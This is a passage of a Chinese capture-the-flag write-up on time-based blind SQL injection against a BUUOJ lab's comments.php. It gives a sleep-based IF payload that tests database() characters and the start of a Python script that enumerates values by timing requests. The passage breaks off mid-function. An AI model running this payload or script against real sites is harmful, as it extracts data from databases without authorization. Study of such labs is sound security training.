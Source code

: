 解决这种情况有两种方式，一种是 DNSlog，另一种是 sleep 盲注。但是经过测试本题无法使用 SQL 语句中的 `load_file`，故无法使用 DNSlog.

根据 IF 语句的语法 `if(表达式, 若真, 若假)` 使用 payload

```sql
if(ascii(substr(database(),1,1))>0,sleep(5),1)
```

发现网页加载时间明显变慢。利用这一特性，写 Python 脚本，定义一些工具函数：

```python
# Copyright (c) 2022 Cnily03
from time import sleep
import requests

# 字母表
ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!?-_ @#/\\"
# 靶机地址
URL = "http://a4987151-d67a-4396-b3d4-10fa0937cba5.node4.buuoj.cn:81/comments.php"
# 请求发送间隔
SLEEP_INTERVAL = 0.001
# 几秒内未收到响应视为 if 判真
REQUEST_TTL = 0.8


def test_pass(payload):
    """测试 payload 是否有效
    """
    url = URL
    data = {"name": payload}
    try:
        res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
    except:
        return True
    return False


def test_int(L, R, payload, log=False, log_result=False):
    """枚举整数直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替整数
    """
    for i in range(L, R):
        url = URL
        data = {"name": payload.format(i)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Number {i} missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if log_result:
                print(f"The matched number is {i}!")
            return i
    return None


def test_char(payload, index=-1, log=False, log_result=False):
    """枚举字母表直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替字符
    """
    for char in ALPHABET:
```